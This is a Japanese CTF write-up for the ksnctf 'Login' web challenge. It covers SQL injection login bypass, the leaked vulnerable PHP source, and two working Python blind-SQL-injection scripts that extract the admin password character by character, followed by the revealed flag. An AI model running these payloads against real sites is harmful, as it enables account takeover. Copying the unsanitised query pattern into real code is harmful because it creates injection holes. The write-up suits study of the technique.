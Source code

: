 # ksnctf: Login

**Category:** Web  
**Points:** 120pt  
**Description:**  

> http://ctfq.sweetduet.info:10080/~q6/

**Hint:**

>

## 解き方
サイトにアクセスするとadminでログインしろとの指示がある．

![img01](../assets/img/Screenshot_2018-10-12_11-17-32.png)

お決まりの`' OR 1=1 --`でSQLiを試してみるとflagは取得できないもののサーバサイドのソースコードをリークできた．flagはadminのパスワードらしい．

```html
 Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:

<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

sqliteのDBを使用しており，おそらくパスワード(flag)の長さは今までの問題からして`21`と思われる．念の為，長さを確認するスクリプトはこちら．

```python
#!/usr/bin/env python

import urllib.request
import urllib.parse

url = "http://ctfq.sweetduet.info:10080/~q6/"

def main():
    for i in range(1, 100):
        # payload for POST
        payload = {
            "id": "admin' AND (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {counter} --".format(counter=i),
            "pass": "",
        }

        # encode utf-8
        post_data = urllib.parse.urlencode(payload).encode("utf-8")
        req = urllib.request.Request(url, post_data)

        # HTTP response
        res = urllib.request.urlopen(req)
        if int(res.headers["content-length"]) > 2000:
            print("length of the password is {counter}".format(counter=i))
            break

if __name__ == "__main__":
    main()
```

adminのパスワード長をSQL文のLENGTHで取得し，一致した場合にログインが成功するSQLを繰り返し発行している．これにより`21`文字とわかったので，総当りでパスワードを探索する．

```python
#!/usr/bin/env python

import urllib.request
import urllib.parse

url = "http://ctfq.sweetduet.info:10080/~q6/"


def main():
    for i in range(1, 22):
        # crack password with [0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_]
        for char_n in range(48, 123):
            # payload for POST
            flag = chr(char_n)
            payload = {
                "id": "admin' AND SUBSTR((SELECT pass FROM user WHERE id = 'admin'), {index}, 1) = '{char}' --".format(
                    index=i, char=flag
                ),
                "pass": "",
            }

            # encode utf-8
            post_data = urllib.parse.urlencode(payload).encode("utf-8")
            req = urllib.request.Request(url, post_data)

            # HTTP response
            res = urllib.request.urlopen(req)
            if int(res.headers["content-length"]) > 2000:
                print(flag, end="")
                break
    print()


if __name__ == "__main__":
    main()
```

`SUBSTR`を用いてadminのpassを先頭から1文字ずつ抜き出し，総当りで同じ文字が該当した場合はログイン成功とみなす処理をしている．この繰り返しでflagを取得した．この脆弱性は`Blind SQL Injection`と呼ばれ，SQLiは確かに存在するが，結果は表示されない類のものらしい．まとまった情報を取得するには，総当りなどで1bitずつ情報を繰り返し取得する必要があるとの事だった．なるほど．

#### Flag
```
FLAG_KpWa4ji3uZk6TrPK
```